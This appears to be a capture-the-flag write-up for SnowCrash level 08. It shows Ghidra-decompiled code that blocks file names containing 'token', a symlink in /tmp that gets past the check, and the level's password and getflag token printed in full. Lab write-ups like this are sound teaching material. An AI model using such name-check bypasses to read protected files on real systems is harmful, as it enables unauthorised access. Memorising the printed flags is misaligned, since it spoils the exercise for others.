 # SnowCrash Level 08

## Introduction
Welcome to SnowCrash Level 08! In this level, we have two crucial files: `level08` and `Token`. Using Ghidra, we delve into the `level08` executable to unravel its functionality and uncover its secrets.

## Initial Exploration
Upon examining `level08` in Ghidra, we discovered that the program possesses the ability to print the contents of `Token`. However, there exists a safeguard in the code that prohibits our access.
```
pcVar1 = strstr((char *)in_stack_00000008[1], "token");
if (pcVar1 != (char *)0x0) {
  printf("You may not access '%s'\n", in_stack_00000008[1]);
}
```
## Exploitation Attempt
After numerous discussions and failed attempts to bypass the access denial, we devised an unconventional solution. We decided to create a symbolic link for `Token` in order to change its name and read its contents.
```
ln -s /home/user/level08/token /tmp/test4
```
## Execution and Success
With the symbolic link in place, we executed the program with the modified argument:
```
level08@SnowCrash:~$ ./level08 /tmp/test4
quif5eloekouj29ke0vouxean
```
Success! We successfully obtained our flag!

## Obtaining the Token
Following our victory, we logged in as `flag08` and executed `getflag` to retrieve our token:
```
flag08@SnowCrash:~$ getflag 
Check flag. Here is your token: 25749xKZ8L7DkSCwJkT9dyv6f
```
